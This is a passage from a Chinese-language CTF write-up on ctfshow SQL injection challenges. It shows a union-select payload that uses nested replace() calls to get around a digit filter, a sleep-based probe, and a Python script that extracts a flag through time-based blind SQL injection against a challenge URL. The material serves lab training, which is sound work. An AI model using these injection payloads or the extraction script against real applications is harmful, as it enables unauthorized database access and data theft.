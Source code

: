 对输出进行了限制, 如果有数字就显示不出来

其实是有显示位的

![20220724211659](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724211659.png)

一种思路是盲注 (要写脚本)

但还有另一种思路, 使用 `replace()` 把数字替换成字母

![20220724212136](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724212136.png)

`replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,1,'A'),2,'B'),3,'C'),4,'D'),5,'E'),6,'F'),7,'G'),8,'H'),9,'I'),0,'J');`

payload: `1' union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,1,'A'),2,'B'),3,'C'),4,'D'),5,'E'),6,'F'),7,'G'),8,'H'),9,'I'),0,'J'),'b' from ctfshow_user4 where username='flag' %23`

![20220724212754](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724212754.png)

替换回去后得到 flag

## web175

```php
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

`[\x00-\x7f]/i` 匹配 ASCII 码表范围内的字符

也就是说 字母 数字 符号都显示不出来了

`1' and sleep(5) %23`

猜测为时间盲注

脚本

```python
import time
import requests

dicts='1234567890-_{}qwertyuiopasdfghjklzxcvbnm'

flag = ''

for i in range(1,64):
    for s in dicts:
        sql= '1\' and if(substr((select password from ctfshow_user5 where username=\'flag\'),{},1)=\'{}\',sleep(3),0) %23'.format(i,s)
        url = 'http://d2a0c671-e4d9-4ecb-b011-90a5fc68b498.challenge.ctf.show/api/v5.php?id={}&page=1&limit=1'.format(sql)
        start_time = time.time()
        res = requests.get(url)
        stop_time = time.time()
        if stop_time - start_time >= 3:
            flag += s
            print(flag)
            break
```
